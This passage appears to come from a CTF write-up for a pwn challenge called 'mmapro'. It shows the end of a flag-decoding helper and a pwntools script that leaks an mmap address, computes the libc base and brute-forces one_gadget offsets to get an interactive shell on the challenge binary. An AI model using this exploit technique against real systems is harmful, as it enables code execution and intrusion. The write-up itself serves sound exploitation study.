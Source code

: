 ```python 
    return active_flags

flag_value = 0x76d44444e899
print(f"Flags set in {hex(flag_value)}: {decode_flags(flag_value)}")
```
 <br>

- Let's try all the one_gadget address using the above script

<img src="https://camo.githubusercontent.com/89e59255bf56a91b41abbbc321825b9379e635ffb01ad7aed0dfd38b0252094e/68747470733a2f2f6861636b6d642e696f2f5f75706c6f6164732f724a69355f38395979782e706e67"> <br>

- We got the flag values, not sure which one suits for us, so let's try to bruteforce every gadget value


```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF("mmapro_patched",checksec=False)
libc = ELF("libc.so.6",checksec=False)
ld = ELF("ld-2.37.so",checksec=False)

one_gadgets = ['0x4e892', '0x4e899', '0x4e8a0', '0x4e8a7', '0x4e8ac', '0x4e8bc', '0x4e8c1', '0x4e8c4', '0x4e8c9', '0x7ac50', '0x7ac57', '0x7ac5e', '0x7ac61', '0x7ac66', '0x7ac6b', '0x7ac70', '0x7ac75', '0x7ac89', '0x1052fa', '0x105302', '0x105307', '0x105311']

for gadget_addr in one_gadgets:
    p = elf.process()
    mmap_leak = u64(p.recv())
    libc_base = mmap_leak - 1138464
    the_mmap64_plus_23_itself = (libc_base + 0x115f37) - 0xf37
    one_gadget = libc_base + int(gadget_addr,16)

    log.info(f'mmap leak: {hex(mmap_leak)}')
    log.info(f'libc base: {hex(libc_base)}')
    log.info(f'onegadget: {hex(one_gadget)}')


    addr   = the_mmap64_plus_23_itself
    length = 0x57000
    prot   = 0x7
    flags  = one_gadget
    fd     = -1
    offset = 0

    payload = flat(
        addr,
        length,
        prot,
        flags,
        fd,
        offset
    )

    # input('> attach GDB')
    p.sendline(payload)
    p.interactive()
```
 <br>
 